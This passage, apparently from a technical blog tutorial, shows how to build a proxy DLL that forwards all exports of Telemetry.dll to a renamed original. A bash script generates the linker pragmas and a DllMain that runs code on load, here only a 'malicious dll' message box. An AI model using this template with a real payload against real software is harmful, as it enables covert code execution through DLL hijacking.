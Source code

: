</code></pre></div></div>

And for each of those symbols we would like to _proxy_ them to a copy of the original `Telemetry.dll` named, say, `TelemetryOrig.dll`. We can do this using the [/EXPORT MSVC linker option](https://learn.microsoft.com/en-us/cpp/build/reference/export-exports-a-function?view=msvc-170). For example to proxy `FooFunction` we would use something like:

```
/export:FooFunction=TelemetryOrig.FooFunction
```

We could pass this option on the command line while compiling, but we can also add [the following comment directive](https://learn.microsoft.com/en-us/cpp/build/reference/export-exports-a-function?view=msvc-170#remarks) to our C code:

```c
#pragma comment(linker "/export:FooFunction=TelemetryOrig.FooFunction")
```

Now, let's write a bash script that will read `Telemetry.dll` exports and generate the code with a list of comment directives for each export:


<div class="filename">make_pragmas.sh</div>
{% highlight bash %}
#!/bin/bash

DLL_NAME="TelemetryOrig"
DLL_FILE="Telemetry.dll"

echo '#include <windows.h>'
echo '#pragma comment(lib, "user32") // for MessageBoxA'
echo ''

(IFS='
'
for line in $(python -m pefile exports $DLL_FILE); do
  expname=$(echo $line | cut -f2 -d' ' | sed "s/^b'//" | sed "s/'$//")
  echo "#pragma comment(linker, \"/export:$expname=$DLL_NAME.$expname\")" 
done)

echo '
DWORD WINAPI ThreadFunc(void* data) {
    MessageBoxA(NULL, "Hi from a malicious dll", "Hi from a malicious dll", 0);
    return 0;
}

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    switch(dwReason){
        case DLL_PROCESS_ATTACH:
            CloseHandle(CreateThread(NULL, 0, ThreadFunc, NULL, 0, NULL));
            break;
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}
'
{% endhighlight %}
